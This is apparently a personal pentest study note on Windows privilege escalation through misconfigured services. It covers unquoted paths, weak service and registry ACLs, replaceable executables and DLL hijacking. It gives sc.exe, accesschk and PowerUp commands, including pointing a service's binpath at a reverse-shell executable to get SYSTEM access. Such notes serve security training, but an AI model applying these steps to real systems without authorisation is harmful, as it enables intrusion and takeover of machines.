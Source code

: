 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

If a service runs with a SYSTEM Privs and are misconfigured, exploiting them may lead to command execution with SYSTEM privilege as well.

### Service Commands
```powershell
# Query the configuration of a service
sc.exe qc <name>

# Query the current status of a service
sc.exe query <name>

# Modify a configuration option of a service
sc.exe config <name> <option>= <value>

# Start/Stop a service
net start/stop <name>
```

# Service Misconfigurations
### Insecure Service Permissions
Each service has an ACL which defined certain service-specific permission
```powershell
# Innocuous Service Permission
SERVICE_QUERY_CONFIG
SERVICE_QUERY_STATUS

# Usefull Service Permission to check weather service is starable or stopable by the user
SERVICE_STOP
SERVICE_START

# Dangerous Service
SERVICE_CHANGE_CONFIG
SERVICE_ALL_ACCESS
```
- If user has permission to change service configuration with SYSTEM priv, the change the executable path with our own
- We need to have permission to start/stop the service, to be able to escalate prvileges
Check ACLs for a service
```
.\accesschk.exe /accepteula -uwcqv <user> <service>
```
- Change binary path of a service
```powershell
sc.exe config <service> binpath= "\"C:\reverse_shell.exe\""

# start service to start the reverse shell
net start <service>
```
- Using powershell to enumerate the pathnames
```powershell
Get-WmiObject -Class win32_service | select-object pathname
```
- PowerUp can be used to query services whose binpath can be mofified by the current user:
```powershell
Get-ModifiableServiceFile -Verbose
```
- PowerUp can be used to query services whose configuration can be changed by the current user:
```powershell
Get-ModifiableService -Verbose
```

### Unquoted Service Path
```powershell
# runs someProgram.exe
"C:\Program Files\Some Dir\SomeProgram.exe"

C:\Program Files\Some Dir\SomeProgram.exe
# Should run Program first with two argument Files\Some and Dir\Someprogram.exe
# windows resolve this ambiguity by checking each possibiltity in turn.
# Execution order:
# 1. "C:\Program"
# 2. "C:\Program Files\Some"
# 3. "C:\Program Files\Some Dir\SomeProgram.exe"
```
- This can be exploited to check which directory can we access and put our reverse shell there with write access.
- To check write access for each of these directories
```powershell
.\acchesschk -quvdw "C:\"
.\acchesschk -quvdw "C:\Program Files\"
.
.
.
```
- After writeable path is found. Copy the reverse shell.
```
# "C:\Program Files\Some"
net start
```
- We get a reverse shell
- PowerUp script can be used to search for unquoted service paths:
```powershell
Get-ServiceUnquoted -Verbose
```
### Weak Registry Permission
- Stores data for each service
- Registries have ACL
- ACLs can be misconfigured
- may be possible to service config via registry.
```powershell
# Verify Writable registry keys:
Get-Acl HKLM:\System\CurrentControlSet\Services\regsvc | select-object -Property *

# Verify writibility via accesschk
.\accesshk -quv
```
```powershell
# Query the registry key
reg query <registry>

# Overwrite the exectable
reg add <registry> /v <variable> /t <data_type> /d <data> /f

# restart the service
net start regsvc
```

### Insecure Service Executable
If the original executable is modifiable by our user.
```powershell
# Overwrite the service executable with our reverse shell.
net start <service>
```

### DLL Hijacking
- A DLL is missing from the system.
- Our user has write permission on the directory where the DDL is looked for by the system. 
- DDL is executed with the same privilege as the process that imports the DLL
```powershell
# Test which service we can stop and start
# copy over to our system
# Use procmon64 to analyze missing DLL
# Check if that path is writable or not
# Place reverse shell there
net start <service>
```


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
